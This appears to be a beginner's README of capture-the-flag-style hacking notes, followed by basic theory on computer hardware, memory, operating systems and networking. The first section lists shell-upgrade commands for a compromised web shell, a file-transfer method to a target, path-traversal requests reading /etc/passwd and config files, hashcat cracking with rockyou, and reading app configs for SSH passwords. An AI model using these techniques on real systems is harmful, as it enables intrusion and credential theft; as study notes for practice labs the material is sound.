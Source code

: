 # Guide404
simple guide for noobs

----------------------GENERAL-----------------
(For every domain you find:)
1. nano /etc/hosts
(Harden the web shell)

2. python3 -c 'import pty; pty.spawn("/bin/bash")'   (SHELL HARDERING)
stty raw -echo; fg
export TERM=xterm
or
script /dev/null -c bash
stty raw -echo
fg
reset

3. (move one file from your machine to the target , if you have a ssh connection)
   --> python3 -m http.server 8888 (in the directory of yhe file you want to send)
   --> wget http://<myIP>:<port>/filename   (at target's pc)

--------------------LFI---------------------
1. (throught pdf export/download) (known exploitable files: https://github.com/hussein98d/LFI-files/blob/master/list.txt):
   --> (burpsuite) GET /download?filename=../../../../../etc/passwd HTTP/1.1
   --> GET /download?filename=../../config/database.yml HTTP/1.1

-----------------------------HASHES-----------------------------
1. go at hashcat id tables and ctr+F to searc your hash and take the id
2. hashcat -m <id> hash.txt /usr/share/wordlists/rockyou.txt

-----------------------------WEBSHELL-----------------------
(after you get a web shell)
1. python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
2. cat /var/www/limesurvey/application/config/config.php (you might find password for ssh)





                                                                                             SOME THEORY

A PC has those 5 components:
1)CPU     --> a) ALU (Arithmetic Logic Unit) does calculations   b) CU (Control unit) manage data/orders   c) Registers (short term storaging)  ||||| fetch->Decode->Excecute->Repeat
2)RAM     --> Fast temporary memory --> DDR4/DDR5
3)Hard Disk (ssd/hdd) or new gen (NVMe SSD)     -->SSD (faster,reliable,no noisy)   HDD (Bigger space than ssd, noisy and if it moves it can stop working)   
4)Motherboard
5)GPU
+ input/output devices (I/O)

inputs --> (CPU) processing --> (RAM/HardDisk) storage --> output


-----------------------------------------MEMORY-----------------------------------
overall memories --> a) Registers   b) Cashe (L1, fast but small|||L2,slow but bigger|||L3, even slower but bigger too)   c)RAM   d) HardDisk
when we open a program:
CPU loads it to the RAM from the HardDisk, and CPU reads it from the RAM and stores the data at Cache or Registers
If RAM is full, PC uses some space from HardDisk, like a Virtual Memory ----> Known us Paging (slower than RAM)


---------------------------------------OS--------------------------------
What it does?
1) CPU sheduling
2) RAM-VM sheduling
3) Storage management
4) I/O devices management
5) Files management

it has 4 parts:
1)Kernel: the core/brain of it, it communicates with the hardware and loads the programs at RAM.
2)Shell: the interface for the communication with the user
3)File System: the way the pc stores and manages the files (known ones: NTFS, FAT32, EXT4)
4)Drivers (softwares)

So when i open a PC, the 'Boot loader" loads the OS at RAM, the kernel starts the "start-ups" services and then every time you open a program: the OS loads it to the RAM, CPU execute the orders and the OS handle the data and communication user-program.

-------------------------------------Networking--------------------------------------

The base of nowadays networks are the Nodes and the Links
Types of networks: 
1) LAN
2) WAN
3) WLAN (wireless)
4) VPN
   The protocoles used are:
1)IP  (manages the addresses on the network)
2)TCP (slower but reliable)
3)UDP (fast but not so reliable)

The model that is commonly used is the OSI Model:
That has 7 layers:
7)Application          (HTTP,HTTPS,QUICK) apis
6)Presentation         cryptography
5)Session              manages connections/sessions
4)Transport            TCP/UDP
3)Network              IP
2)Data Link            Machine-Machine
1)Physical             wires/signals





